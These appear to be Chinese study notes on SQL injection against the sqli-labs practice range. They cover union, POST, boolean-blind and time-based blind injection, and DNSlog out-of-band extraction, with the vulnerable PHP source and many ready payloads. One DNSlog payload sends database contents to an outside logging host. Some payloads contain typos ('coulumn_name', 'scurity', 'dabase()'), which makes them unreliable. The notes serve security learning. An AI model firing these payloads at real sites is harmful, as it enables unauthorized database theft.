

[18.SQL注入](18.SQL注入.md) [14.MySQL基础](14.MySQL基础.md)
## 1.union注入
使用union来进行联合查询获取需要的信息：`?id=-1 union select 1,database(),3--+`等
上一章末尾有大量的详细使用方法，详见上章[18.SQL注入](18.SQL注入.md)

----
## 2.POST注入
> 原理是没有区别的，但是传参的方式不同
- 使用HackBar获取Post data
- 使用burp直接进行抓包
	- 可以看响应包长度
	- 可以看响应包渲染
----
## 3.盲注
> 在传统的SQL注入攻击中，攻击者可以直接获取到应用程序返回的数据库错误信息或查询结果，从而了解到他们所注入的恶意SQL语句是否生效。 **但在盲注（Blind）注入中，攻击者无法直接获取到这些信息，因此称之为"盲注"。**
> 
> 在盲注攻击中，攻击者通过构造恶意的注入语句，将其输入传递给应用程序处理。然后，攻击者观察应用程序的响应或其他可见的行为来确定注入是否成功，并进一步探测和利用数据库中的数据。

### 布尔盲注
> 适用于页面**不回显数据库错误信息且无联合查询数据返回**的情况

靶场：sqli/Less-8
```php
<?php
error_reporting(0);
include("../sql-connections/sql-connect.php");

if (isset($_GET['id'])) {
    $id = $_GET['id'];
    
    $fp = fopen('result.txt', 'a');
    fwrite($fp, 'ID:' . $id . "\n");
    fclose($fp);

    $sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    $result = mysql_query($sql);
    $row = mysql_fetch_array($result);

    if ($row) {
        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        echo "<br>";
        echo "</font>";
    } else {
        echo '<font size="5" color="#FFFF00">';
        echo "</br></font>";
        echo '<font color="#0000ff" font size="3">';
    }
} else {
    echo "Please input the ID as parameter with numeric value";
}
?>
```
> 如果查询到数据就显示`you are in`
> 未查到就不显示，不显示数据和报错

if  判断
ascii(ord) 将字符转换为ascii
length 字符的长度
substr(mid) 截取字符的

- 判断闭合
	- `and 1=1--+` `and 1=2--+`
- 判断字段数
	- `order by 3--+
- 通过上述函数进行判断
#### 获取库相关数据
- 判断数据库名长度
	- `and length(database())>8--+`判断当前数据库名称是否大于8	
- 判断数据库名称
	- `and ascii(substr(database(),1,1))=116--+`猜测数据库名第一个字符ascii是不是116
	- 可以使用`< >`来猜出大致范围再猜具体值
	- 或者使用bp爆破ascii值

#### 获取表相关数据
- 判断表数量
	- `and (select count(*) from information_schema.tables where table_schema='security')>4--+`判断`security`库中表的数量是否大于4
- 判断表名长度
	- `and length((select table_name from information_schema.tables where table_schema='security' limit 0,1)) >8--+`判断`security`库第一个表名长度是否大于8
- 判断表名
	- `and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))>100 --+`判断`security`库第一个表名的第一个字符ascii是否大于100
#### 获取字段相关信息
-  判断字段数量
	-  `and (select count(*) from information_schema.columns where table_schema='security' and table_name='users')=3--+`判断security库中的users表中字段数是否为3
-  判断字段名长度
	- `and length((select column_name from information_schema.columns where table_schema='security' and table_name='user' limit 0,1))=6--+`判断security库中的users表中第一个字段名长度是否为6
- 判断字段名
	-  `and (ascii(substr((select coulumn_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1)))=105--+`判断security库中的users表中第一个字段名第一个字符ascii是不是105
#### 探测具体数据
- `and ascii(substr((select username from scurity.users limit 0,1),1,1)) =100--+`判断scurity库中users表中username字段第一个数据第一个字符ascii是不是100
----
### 时间盲注
> 攻击者在注入语句中使用延时函数或计算耗时操作，以`观察应用程序对恶意查询的处理时间`。通过观察响应时间的变化，攻击者可以逐渐推断数据库中的数据。**页面不会返回任何报错信息** 
> 基于时间的盲注通常会使用一些可能引起延迟或错误的操作，如`睡眠函数sleep()、错误的 SQL 语句或其他耗时的操作。`


靶场：sqli/Less-9
```php
<?php
// 引入MySQL数据库连接参数文件
include("../sql-connections/sql-connect.php");
// 关闭PHP错误报告（隐藏报错信息，强化盲注场景）
error_reporting(0);

// 检查是否传入id参数
if(isset($_GET['id']))
{
    // 获取GET请求中的id参数值
    $id=$_GET['id'];
    
    // 记录id参数到result.txt日志文件（用于分析注入语句）
    $fp=fopen('result.txt','a');
    fwrite($fp,'ID:'.$id."\n");
    fclose($fp);

    // 拼接SQL查询语句（核心漏洞点：直接拼接未过滤的id参数）
    $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    // 执行SQL查询
    $result=mysql_query($sql);
    // 获取查询结果的第一条数据
    $row = mysql_fetch_array($result);

    // 判断查询是否返回结果
    if($row)
    {
        echo '<font size="5" color="#FFFF00">';	
        echo 'You are in...........';
        echo "<br>";
        echo "</font>";
    }
    else 
    {
        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        // 注释掉的错误输出（盲注场景下隐藏SQL错误）
        //print_r(mysql_error());
        //echo "You have an error in your SQL syntax";
        echo "</br></font>";	
        echo '<font color= "#0000ff" font size= 3>';	
    }
}
else { 
    // 未传入id参数时的提示
    echo "Please input the ID as parameter with numeric value";
}
?>
```
使用函数：`sleep()`睡眠函数 使数据库延迟
#### 确认闭合
- `and sleep(5)--+`当闭合正确时会沉睡5秒
#### 获取相关数据
- 确认表名数量
	- `and if((select count(*) from information_schema.tables where table_schema=database())=5,sleep(5),3)--+`如果表的数量=5就沉睡5秒
	- 使用`database()`跳过寻找库名的步骤,前面布尔盲注中也可以用
- 确认表名长度
	- `and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1)) >8,sleep(5),3)--+`如果第一个表名长度大于8就沉睡5秒
- 确认表名数据
	- `and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100,sleep(5),3)--+`如果第一个表的表名第一个字母ascii大于100就沉睡5秒
- 确认字段名
	- `and if(length((select column_name from information_schema.columns where table_schema=dabase() and table_name='user' limit 0,1))=6,sleep(5),3)--+`
- 获取具体数据
---- 
### dnslog盲注（光速盲注）
> DNSlog注入是一种利用DNS服务器记录域名解析请求的特性，来获取SQL注入结果的技术。它的原理是通过构造一个包含数据库信息的子域名，然后使用MySQL的load_file函数或其他方法，让目标服务器向DNS服务器发起解析请求，从而在DNS服务器上留下注入结果的痕迹。利用带外通道将数据带出，可以减少发送请求，直接回显数据实现注入。
> DNSlog注入的应用场景是当网站对于SQL注入的攻击没有回显或者过滤了敏感的回显内容时，可以使用DNSlog注入来绕过这些限制，获取数据库的信息。

#### 前提条件
- 网站根目录配置文件`my.ini`中参数`secure_file_priv= `  为空(允许去读取执行的路径，如果参数为空，就是所有都可以，指定具体路径的话，就只能操作指定路径)
- 必须是windows操作系统
#### DNSlog
DNSlog网站：
	`dnslog.cn`
	`eyes.sh`
在相关网站上面创建专属子域名后，可在该相关网站上面查看到相关记录
#### UNC
windows系统用于映射网络驱动器（共享文件夹）
win+R打开，输入，会触发dns解析
`\\ip`
#### SQL注入读取文件函数
- `load_file()`读取文件函数
- `select load_file('E:\\1.txt')`读取对应路径的文件
- `concat('//',(select database()),'.dnslogyuming/abc')`
	- 得出：`//database.dnslogyuming/abc`类UNC路径
- `load_file(concat('//',(select database()),'.dnslogyuming/abc'))`
	- 通过concat函数进行拼接，结果是一个类似于UNC路径（域名）一样的东西，当我们通过load_file进行文件读取时，因为拼接的结果是unc，就会去访问对应地址，而又因为访问的地址里面有自己的dnslog，就会将访问结果进行记录
- `if ((select load_file(concat('//',(select database()),'.zhuxingliangchen.eyes.sh/abc'))),1,0)--+`
- 通过此查询将内容拼接到域名内，让load_file()去访问共享文件，访问的域名被记录，姿势变为显错注入，读取远程共享文件，通过拼接的函数做查询，拼接到域名中，访问时将访问服务器，记录后查看域名
---
